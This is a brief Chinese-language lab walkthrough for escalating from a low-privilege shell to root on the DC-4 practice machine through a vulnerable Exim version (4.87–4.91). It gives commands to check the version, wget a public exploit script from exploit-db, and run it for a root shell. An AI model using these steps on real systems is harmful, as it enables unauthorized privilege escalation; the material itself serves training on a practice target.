 ------

## 🧪 利用条件

- 攻击者已获得 **目标主机 shell 权限（低权限用户）**
- 系统中安装了受影响版本的 Exim
- 本地有 Exim 执行权限（通常为 `/usr/sbin/exim` 或 `/usr/sbin/exim4`）

------

## ⚙️ 利用流程（实战演示）

以漏洞靶场 DC-4 为例：

### 🔍 步骤 1：确认版本

```
bash


复制编辑
/usr/sbin/exim4 --version
```

确认版本在 4.87 ~ 4.91 范围内。

------

### 🔧 步骤 2：下载 Exploit 脚本

可使用以下 Exploit-DB 提供的提权脚本：

```
bash


复制编辑
wget https://www.exploit-db.com/raw/46996 -O exim_poc.sh
chmod +x exim_poc.sh
```

------

### 🚀 步骤 3：运行 Exploit

```
bash


复制编辑
./exim_poc.sh
```

脚本会尝试构造利用环境并执行特定命令（如启动 root shell）。如果成功，攻击者将以 root 身份获得交互式 shell。
